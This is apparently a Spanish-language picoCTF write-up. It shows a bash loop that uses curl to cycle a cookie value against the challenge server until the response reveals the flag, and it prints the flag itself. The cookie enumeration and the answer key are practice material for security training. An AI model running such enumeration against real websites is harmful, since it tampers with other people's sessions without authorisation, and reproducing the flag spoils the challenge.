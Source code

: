 ## Objetivo
Obtener la bandera mediante cookies

## Solución
```
Una de las soluciones es desde consola pedir las cookies, automatizandolo para que analice todas las cookies que podamos y asi encontrar la bandera, la linea de comando seria
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
y ahi mismo con el grep hacemos que nos de la parte que contenga la bandera
```
## Notas adicionales
## Referencias
https://www.youtube.com/watch?v=LseQ-XWCXVo&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=12